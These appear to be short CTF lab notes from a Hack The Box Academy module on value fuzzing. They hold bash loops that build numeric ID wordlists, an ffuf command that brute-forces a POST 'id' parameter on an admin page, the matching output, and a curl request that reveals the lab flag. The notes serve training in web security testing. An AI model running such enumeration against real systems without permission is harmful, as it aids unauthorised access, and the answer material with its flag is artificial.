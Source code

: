 # Value Fuzzing

for i in $(seq 1 1000); do echo $i >> ids.txt; done

for i in $(seq 1 9999); do foo=$(printf "%04d" $i) ; echo "${foo}" >> ids.txt; done

for i in $(seq 1 999999); do foo=$(printf "%06d" $i) ; echo "${foo}" >> ids-6-digit.txt; done



ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' > fuzz-parameter-post.txt

## LAB

for i in $(seq 1 1000); do echo $i >> ids.txt; done

ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:30547/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' > fuzz-parameter-post.txt -fs 768

73                      [Status: 200, Size: 787, Words: 218, Lines: 54, Duration: 0ms]

curl http://admin.academy.htb:30547/admin/admin.php -X POST -d 'id=73' -H 'Content-Type: application/x-www-form-urlencoded'

<div class='center'><p>HTB{p4r4m373r_fuzz1n6_15_k3y!}</p></div>